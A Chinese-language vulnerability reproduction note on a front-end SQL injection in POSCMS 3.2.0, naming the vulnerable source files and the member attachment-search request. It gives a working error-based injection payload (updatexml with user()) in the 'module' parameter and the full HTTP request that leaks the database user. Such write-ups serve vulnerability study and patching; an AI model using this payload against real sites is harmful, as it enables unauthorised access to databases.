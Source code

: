 POSCMS 3.2.0 前台sql注入漏洞
============================

一、漏洞简介
------------

二、漏洞影响
------------

POSCMS 3.2.0

三、复现过程
------------

![1.png](./.resource/POSCMS3.2.0前台sql注入漏洞/media/rId24.png)

查看源码（`\diy\dayrui\models\Attachment_model.php`）可以发现注入点：

![2.png](./.resource/POSCMS3.2.0前台sql注入漏洞/media/rId25.png)

该函数的调用点位于（`\diy\module\member\controllers\Account.php`）：

![3.png](./.resource/POSCMS3.2.0前台sql注入漏洞/media/rId26.png)

对应的功能实际是前台用户中心---\>基本管理---\>附件管理的搜索功能，随便选择某个类别搜索后会看到这条请求：

    GET /index.php?s=member&c=account&m=attachment&module=photo&ext= HTTP/1.1
    Host: www.0-sec.org

向`module`参数注入Payload果然出现了报错：

![4.png](./.resource/POSCMS3.2.0前台sql注入漏洞/media/rId27.png)

但不知道为什么博客里的Payload这里复现失败了，不过已经知道是报错注入，我用了经典的Payload------`" or updatexml(1,concat(1,0x7e,user()),1);#`拼接入参数中，得到了数据库当前用户：

    GET /index.php?s=member&c=account&m=attachment&module=photo%22%20or%20updatexml(1,concat(1,0x7e,user()),1);%23&ext= HTTP/1.1
    Host: www.0-sec.org

![5.png](./.resource/POSCMS3.2.0前台sql注入漏洞/media/rId28.png)

参考链接
--------

> https://xz.aliyun.com/t/4858\#toc-5
